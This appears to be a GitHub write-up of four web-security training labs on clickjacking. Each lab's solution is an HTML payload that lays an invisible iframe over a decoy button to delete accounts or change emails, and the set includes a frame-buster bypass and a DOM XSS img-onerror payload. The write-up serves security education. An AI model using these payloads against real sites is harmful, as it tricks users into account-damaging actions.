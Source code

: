 ## Lab - 1: Basic clickjacking with CSRF token protection (A)

- This lab contains login functionality and a delete account button that is protected by a CSRF token. A user will click on elements that display the word "click" on a decoy website. To solve the lab, craft some HTML that frames the account page and fools the user into deleting their account. The lab is solved when the account is deleted. You can log in to your own account using the following credentials: wiener:peter

```html
<style>
  iframe {
    position: relative;
    width: 500px;
    height: 700px;
    opacity: 0.000001;
    z-index: 2;
  }
  div {
    position: absolute;
    top: 500px;
    left: 60px;
    z-index: 1;
  }
</style>
<div>Click me</div>
<iframe
  src="https://0ad900cd0472cff4c0ee18530078002c.web-security-academy.net/my-account"
></iframe>
```

- the result will look like this:

<img src="../images/clickjacking_lab_1.png" alt="clickjacking" height="400px">

- after decreasing the opacity :

<img src="../images/clickjacking_lab_2.png" alt="clickjacking" height="400px">

---

## Lab - 2: Clickjacking with form input data prefilled from a URL parameter (A)

- This lab extends the basic clickjacking example in Lab: Basic clickjacking with CSRF token protection. The goal of the lab is to change the email address of the user by prepopulating a form using a URL parameter and enticing the user to inadvertently click on an "Update email" button. To solve the lab, craft some HTML that frames the account page and fools the user into updating their email address by clicking on a "Click me" decoy. The lab is solved when the email address is changed. You can log in to your own account using the following credentials: wiener:peter

```html
<style>
  iframe {
    position: relative;
    width: 1000px;
    height: 600px;
    opacity: 0.00001;
    z-index: 2;
  }
  div {
    position: absolute;
    top: 465px;
    left: 60px;
    z-index: 1;
  }
</style>
<div>CLICK ME</div>
<iframe
  src="https://0a5d0048038f1bb1c08859620014003d.web-security-academy.net/my-account?email=test@test2.com"
></iframe>
```

- iframe src makes that form prefill with email address

---

## Lab - 3: Clickjacking with a frame buster script (A)

- This lab is protected by a frame buster which prevents the website from being framed. Can you get around the frame buster and conduct a clickjacking attack that changes the users email address? To solve the lab, craft some HTML that frames the account page and fools the user into changing their email address by clicking on "Click me". The lab is solved when the email address is changed. You can log in to your own account using the following credentials: wiener:peter

```html
<style>
  iframe {
    position: relative;
    width: 1000px;
    height: 600px;
    opacity: 0.000001;
    z-index: 2;
  }

  button {
    position: absolute;
    top: 467px;
    left: 55px;
    z-index: 1;
    font-size: 13px;
    background-color: #009f10;
    color: #fff;
    font-weight: bold;
    padding: 10px 20px;
    border-radius: 30px;
  }
</style>
<button>Click Me</button>
<iframe
  src="https://0a1c0056039e80bdc0d810ac00cd001e.web-security-academy.net/my-account?email=test@test.com"
  sandbox="allow-forms"
></iframe>
```

---

## Lab - 4: Exploiting clickjacking vulnerability to trigger DOM-based XSS (P)

- This lab contains an XSS vulnerability that is triggered by a click. Construct a clickjacking attack that fools the user into clicking the "Click me" button to call the print() function.

- DOM XSS found at the submit feedback page and to make the form prefilled,

```
https://0a4f00fa03e79a75c0c7661a00fe0057.web-security-academy.net/feedback?name=<img src=x onerror="print()">&email=test@test.com&subject=test&message=test
```

```html
<style>
  iframe {
    position: relative;
    width: 600px;
    height: 100vh;
    z-index: 2;
    opacity: 0.5;
  }

  button {
    position: absolute;
    top: 467px;
    left: 55px;
    z-index: 1;
    font-size: 13px;
    background-color: #009f10;
    color: #fff;
    font-weight: bold;
    padding: 10px 20px;
    border-radius: 30px;
  }
</style>
<button>Click Me</button>
<iframe
  src="https://0a4f00fa03e79a75c0c7661a00fe0057.web-security-academy.net/feedback?name=<img src=x onerror='print()'>&email=test@test.com&subject=test&message=test"
  sandbox="allow-forms"
></iframe>
```

---
